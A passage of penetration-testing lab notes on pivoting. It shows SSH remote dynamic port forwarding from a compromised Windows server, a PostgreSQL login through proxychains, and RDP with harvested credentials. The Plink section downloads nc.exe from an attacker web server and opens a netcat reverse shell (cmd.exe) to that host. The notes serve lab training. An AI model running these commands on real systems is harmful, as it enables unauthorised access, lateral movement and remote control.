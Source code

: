 Let's practice this by creating a remote dynamic port forward from MULTISERVER03 (a Windows machine) to our Kali machine. In this scenario, only the RDP port is open on MULTISERVER03. We can RDP in, but we can't bind any other ports to the WAN interface.

We will use the rdp_admin credentials we found earlier to RDP into the server. We'll then use ssh.exe to create a remote dynamic port forward connection to our Kali machine. We can then use that to connect to the PostgreSQL database service on PGDATABASE01.

```bash
kali@kali:~$ xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64
```

```bash
C:\Users\rdp_admin>where ssh
C:\Windows\System32\OpenSSH\ssh.exe
C:\Users\rdp_admin>ssh.exe -V
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
C:\Users\rdp_admin>ssh -N -R 9998 kali@192.168.118.4
```

```bash
kali@kali:~$ ss -ntplu
kali@kali:~$ tail /etc/proxychains4.conf  
```

Now that the configuration file is pointing at our remote dynamic port forward SOCKS port, we can run psql through proxychains to connect to the PostgreSQL database as the postgres user. We'll use the same psql command we would as if connecting directly from MULTISERVER03.

```bash
kali@kali:~$ proxychains psql -h 10.4.50.215 -U postgres  
```

### Port Forwarding with Windows Tools

On Windows versions with SSH installed, we will find scp.exe, sftp.exe, ssh.exe, along with other ssh-* utilities in %systemdrive%\Windows\System32\OpenSSH location by default.

If the version of ssh is higher than 7.6, you can use it for remote dynamic port forwarding. You can check with "ssh.exe -V".

#### Plink

If ssh isn't installed on the machine, check if Plink is. Note that Plink can be used without a GUI, though remote dynamic port forwarding is not possible. Also note that there are alternatives to Plink.

```bash
sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
...
powershell wget -Uri http://192.168.45.182/nc.exe -OutFile C:\Windows\Temp\nc.exe
...
nc -lvnp 4446
...
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.45.182 4446

```
